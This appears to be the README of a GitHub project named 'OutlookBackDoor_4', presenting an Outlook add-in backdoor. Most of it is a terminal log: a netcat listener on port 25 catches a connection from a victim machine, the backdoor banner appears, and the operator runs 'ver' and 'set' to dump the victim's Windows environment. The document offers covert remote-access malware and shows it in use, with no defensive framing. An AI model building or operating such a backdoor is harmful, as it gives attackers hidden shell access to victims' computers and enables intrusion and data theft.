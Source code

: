 # OutlookBackDoor_4
Outlook addin Back Door

MacBook-Pro:~ x$ sudo netcat -vlp 25
Connection from 192.168.101.155:49229

			----= OutLook Backdoor v0.1=----
			  By Xti9er
			  
ver

Microsoft Windows [?汾 6.1.7601]

set

ALLUSERSPROFILE=C:\ProgramData
APPDATA=C:\Users\x\AppData\Roaming
CommonProgramFiles=C:\Program Files (x86)\Common Files
CommonProgramFiles(x86)=C:\Program Files (x86)\Common Files
CommonProgramW6432=C:\Program Files\Common Files
COMPUTERNAME=X-PC
ComSpec=C:\Windows\system32\cmd.exe
